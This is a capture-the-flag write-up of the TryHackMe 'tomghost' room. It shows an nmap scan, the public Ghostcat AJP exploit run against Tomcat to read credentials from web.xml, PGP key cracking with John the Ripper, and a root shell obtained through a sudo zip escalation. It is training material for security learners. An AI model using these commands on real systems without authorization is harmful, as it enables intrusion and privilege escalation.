 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 (regular HTTP port), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](<../../.gitbook/assets/image (6) (1) (2).png>)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole (Metasploit) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](<../../.gitbook/assets/image (8) (1) (1).png>)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](<../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
    skyfuck:password <!----I took out the password----->
  </description>

</web-app>
```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:

![The home directory for the user](<../../.gitbook/assets/image (1) (1) (1) (1).png>)

There were 2 files in this directory: credential.pgp and tryhackme.asc. Neither of them looked as interesting as I thought they would. Looking around, I found a folder of a different user, and in their directory, I found the user.txt file.

![The other user's file](../../.gitbook/assets/screenshot-2021-03-06-230615.png)

I realized that to switch my user access, to merlin (or even to root), I had to do something with the files in the skyfuck directory. I downloaded them using scp:

![Scp command](../../.gitbook/assets/screenshot-2021-03-06-231338.png)

I did run into run more trouble here as well. While trying to import the tryhackme.asc by gpg, it was asking me for a password, which I did not have. I had to refer back to the [previous website ](https://cyber-99.co.uk/thm-tomghost)to see how else I can attack this problem. Based on the website, my next step was to use John the ripper to crack the asc file. Prior to doing that, I did have to change into a format that is readable by John. Here is where programs in /opt/john/ come into play. They convert files from one type into a john crackable format. We will use "gpg2john.py".

![gpg2john command](<../../.gitbook/assets/image (7) (1) (1) (1).png>)

Running john on it let me to a password:

![john output](../../.gitbook/assets/screenshot-2021-03-06-233030.png)

I then used the commands on [this website](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) in order to decrypt the files using the password from the john command.

![](../../.gitbook/assets/screenshot-2021-03-06-233420.png)

From there, I got into merlin's account using that password. I ran "sudo -l" to see what commands the user merlin is able to do.

![sudo -l output](<../../.gitbook/assets/image (6) (1) (1).png>)

We can see that merlin is able to the "zip" command. I have not used this command before, so i will have to do research into how we can root using this. I went to the [GTFObins website](https://gtfobins.github.io/gtfobins/zip/#sudo) to see how I am able to get root on this machine. I ran the following commands:

```markup
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

After this, I had a root shell. I was then able to read the contents of /root/root.txt.

![](../../.gitbook/assets/screenshot-2021-03-06-234126.png)

I had now gotten the password and had completed the room. Overall, it was a great room. I did get lost a couple of times, but I think that's part of the learning process.

